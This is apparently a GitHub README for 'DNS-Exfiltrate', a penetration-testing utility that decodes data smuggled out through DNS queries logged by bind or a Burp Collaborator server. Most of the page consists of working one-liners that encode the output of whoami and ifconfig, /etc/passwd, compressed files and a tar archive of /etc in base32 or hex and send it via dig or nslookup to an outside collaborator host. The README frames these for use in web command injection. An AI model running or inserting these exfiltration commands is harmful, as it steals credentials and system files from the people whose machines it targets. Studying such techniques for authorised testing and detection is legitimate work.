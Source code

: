 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I plan to add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log | base32 -d 
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | base32 -d | zcat
```

## Hex Support

Hex support is coming, here's how to send hex-encoded data. Note that the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

Send STDOUT:
```
ifconfig | xxd -p -c31 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a file:
```
xxd -p -c31 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed file:
```
gzip - < /etc/passwd | xxd -p -c31 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed tar archive:
```
tar czf - /etc | xxd -p -c31 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```
